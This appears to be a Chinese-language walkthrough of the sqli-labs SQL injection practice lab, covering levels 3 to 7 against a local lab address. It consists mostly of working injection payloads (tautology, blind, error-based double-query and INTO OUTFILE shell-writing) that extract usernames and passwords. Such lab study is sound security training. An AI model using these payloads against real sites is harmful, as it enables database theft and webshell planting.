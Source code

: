 `id=1') or 1=1 -- `

将id先代入sql，再在数据库中对其执行函数。类似：`sql = 'select * from user where id = int("' + get_id + '")'` 

### lv.4

`id=1") or 1=1 -- `

类似第三关，只不过只过滤了`'`而忘了过滤`"`

### lv.5

`http://192.168.145.129:8888/Less-5/?id=1' and (length((select group_concat(id,username,password) from users))) = 192 -- `

最简单的盲注，一般都是用脚本一个字节一个字节跑出来

### lv.6

`http://192.168.145.129:8888/Less-6/?id=1" and (length((select group_concat(id,username,password) from users))) = 192 -- `

同lv.5，只不过需要闭合的由双引号变为单引号

### lv.5 & lv.6 预期解：双查询注入

`http://192.168.145.129:8888/Less-5/?id=1' union select 1,count(*),concat(floor(rand(0)*2),' ',(select concat(id,username,password) from users limit 1)) as a from information_schema.tables group by a -- `

参考链接：[SQL注入：双查询](https://lyiang.wordpress.com/2015/04/06/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E5%8F%8C%E6%9F%A5%E8%AF%A2/) / [Mysql报错注入原理分析(count()、rand()、group by)](https://www.cnblogs.com/xdans/p/5412468.html)

简单来说就是利用floor(rand(0)*2)在聚合函数中的不确定性使得作为子查询的payload以报错的形式返回，通常利用语句为

`union select 1 from ( select count(*),concat(floor(rand(0)*2),( 注入爆数据语句)) as a from information_schema.tables group by a) as b`

这里的子查询是放在from语句中的，除此之外还可以放入select或者where中，而除此之外还发现了其他的基于报错的子查询注入：

`http://192.168.145.129:8888/Less-1/?id=221' union select 1,2,3 from (select 猜测的列名 from security（已知的数据库）.猜测的表名) as b -- `

在这个子查询中会先后判断表名和列名，不存在则会报错，所以可以根据报错得到数据库的结构。不存在的报错分别如下:

`Table 'securitsy.wusers' doesn't exist ` , `Unknown column 'ids' in 'field list'`

### lv.7

`http://192.168.145.129:8888/Less-7/?id=1')) union select id,username,password from users into outfile '/var/www/html/tmp/1234.txt' -- `

简单的文件写入，一般用于写shell进去，前提：1.数据库和服务器在同一机器上；2.读写权限：secure-file-pri （限制读写的目录），文件写入目录的写权限以及用于执行shell的执行权限

小问题：如何判断需要`'))'`才能将id参数闭合？

### lv.8
